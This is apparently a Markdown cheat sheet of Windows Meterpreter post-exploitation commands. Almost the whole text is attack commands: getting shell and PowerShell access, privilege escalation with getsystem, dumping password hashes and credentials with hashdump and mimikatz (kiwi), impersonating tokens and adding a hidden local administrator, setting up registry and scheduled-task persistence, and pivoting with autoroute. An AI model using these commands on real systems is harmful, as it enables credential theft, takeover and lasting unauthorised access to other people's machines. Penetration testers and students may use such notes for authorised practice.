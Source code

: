 # windows meterpreter

## shell access (cmd & powershell)

1. for cmd.exe `shell`
2. for powershell
    1. `load powershell` > `powershell_shell`

## windows specific commands

```bash
getuid
sysinfo
ipconfig
arp
route
getsystem
getprivs

migrate <system-process>

hashdump
```

## post enumeration
```bash
run post/windows/gather/*
```

### incognito | [milkdevil/incognito2](https://github.com/milkdevil/incognito2)

```bash
load incognito
list_tokens [-u | -g]
impersonate_token "<token>"

# for better results
migrate <pid>
add_user <user> <pass>
add_localgroup Administrators <user>
```

### mimikatz

```bash
load kiwi
creds_all
```

### local exploit suggester

```bash
run post/multi/recon/local_exploit_suggester
```

## Persistence

```bash
persistence -h
use exploit/windows/local/persistence
use exploit/windows/local/registry_persistence

run scheduleme
run schtaskabuse
```

## autoroute

```bash
run autoroute -s IP/CIDR
run autoroute -p
[OR]
use post/multi/manage/autoroute
```